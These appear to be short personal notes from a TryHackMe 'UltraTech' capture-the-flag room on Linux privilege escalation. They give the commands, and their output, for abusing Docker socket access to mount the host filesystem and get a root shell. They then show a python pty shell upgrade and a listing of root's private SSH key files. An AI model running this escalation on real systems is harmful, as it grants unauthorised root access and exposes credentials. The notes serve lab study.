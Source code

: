 #Linux #PrivEsc #docker 

# CTF Challenge

[[UltraTech - THM]]

---

- `find / -name docker.sock 2>/dev/null`
	- we find `/run/docker.sock`
- identify images
```
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        5 years ago         15.8MB
```
- Having explored HackTricks, I use GTFOBins and find an exploit that gives me a root `/bin/bash`
```
r00t@ultratech-prod:/$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

- Improve shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- Found #ssh keys in root folder
```
root@349266c76c7f:~/.ssh# ll
total 16
drwx------ 2 root root 4096 Mar 22  2019 ./
drwx------ 6 root root 4096 Mar 22  2019 ../
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
```